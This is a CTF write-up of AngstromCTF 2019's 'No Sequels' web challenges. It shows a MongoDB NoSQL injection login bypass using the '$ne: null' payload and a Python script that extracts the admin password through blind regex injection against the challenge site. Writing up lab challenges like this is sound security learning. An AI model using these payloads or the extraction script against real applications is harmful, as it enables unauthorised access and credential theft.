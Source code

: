 ```yaml
---
layout: post
asset: "/assets/posts/angstromctf2019/"
title: "AngstromCTF2019: No Sequels 1 && 2"
date: 2019-04-26 16:09:43 +1000
categories: [writeup, web]
tags: [ctf, 2019, angstrom, web]
points: 130
author: Morgaine Timms
license: CC-BY-4.0
thumbnail: 
thumbnailAttr: 
thumbnailAttrUrl: 
thumbnailAlt: 
published: true
toc: false
description: "MongoDB query selectors and blind injection"
excerpt_separator: <!--more-->
---
```


AngstromCTF2019: No Sequels 1 && 2
===================================

The Challenge
-------------

Two parts, 130pts total.

Part 1

> No Sequels
> Web
> 50
>
> The prequels sucked, and the sequels aren't much better, but at least we always have the original trilogy.
>
> Author: SirIan
>
> link: https://nosequels.2019.chall.actf.co/


Part 2

> No Sequels 2
> Web
> 80
>
> This is the sequel to No Sequels. You'll see the challenge page once you solve the first one.
>
> Author: SirIan

<!--more-->

The Solution
------------

### PART 1

The linked page is a simple login screen, with a snippet of NodeJS code for the `POST /login` route provided

![]({{ page.asset }}12DA5BC3247B3F2A6992F3B3578EFA61.jpg)

```js
router.post('/login', verifyJwt, function (req, res) {
    // monk instance
    var db = req.db;

    var user = req.body.username;
    var pass = req.body.password;

    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }

    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }

        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

In the code, the POST body parameters `​username`​ and `​password`​ are passed directly to a database without sanitisation. This is probably an injection point.

The syntax used (`​db.collection('users').findOne(…`​) looks like mongodb, and the reference to a "monk instance" confirms this.

Using [a list of NoSQL payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) we can get issued an authenticated JWT with the following payload. This should result in authentication as the first available user record.

```js
{
    "username": {"$ne": null},
    "password": {"$ne": null}
}
```

The server dutifully responds with a user token and redirects.

![]({{ page.asset }}DE79BE2C31825AB331C6C0D7FE131406.png)

### PART 2

The authenticated page at `GET /site` provides the name of the admin user object in the database, and the code snippet for the POST route

```js
router.post('/site', verifyJwt, function (req, res) {
    // req.user is assigned from verifyJwt
    if (!req.user.authenticated || !req.body.pass2) {
        res.send("bad");
    }
 
    var query = {
        username: req.user.name,
    }
 
    var db = req.db;
    db.collection('users').findOne(query, function (err, user) {
        console.log(user);
        if (!user){
            res.render('access', {username:' \''+req.user.name+'\' ', message:"Only user 'admin' can log in with this form!"});
        }
        var pass = user.password;
        var message = "";
        if (pass === req.body.pass2){
            res.render('final');
        } else {
            res.render('access', {username:' \''+req.user.name+'\' ', message:"Wrong LOL!"});
        }
 
    });
 
});
```

The next flag requires acquisition of the password for user ‘admin’.

In part 1 [mongodb query selectors](https://docs.mongodb.com/manual/reference/operator/query/) were used for *both* the user and password parameters provided to `POST /login`.

Now that the target username is known, it will be possible to reconstruct the password with a Blind NoSQL injection on the password field.

[This script from github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) is more than sufficient. It uses the regex query selector to build the password one character at a time.

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="https://nosequels.2019.chall.actf.co/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False)
            if 'OK' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```

After retrieving the password (“congratsyouwin”) it is possible to log in to the page in part 2 and get the flag: `act{still_no_sql_in_the_sequel}`

![]({{ page.asset }}67AF52332EB7EAD9D19748723F833B1B.png)
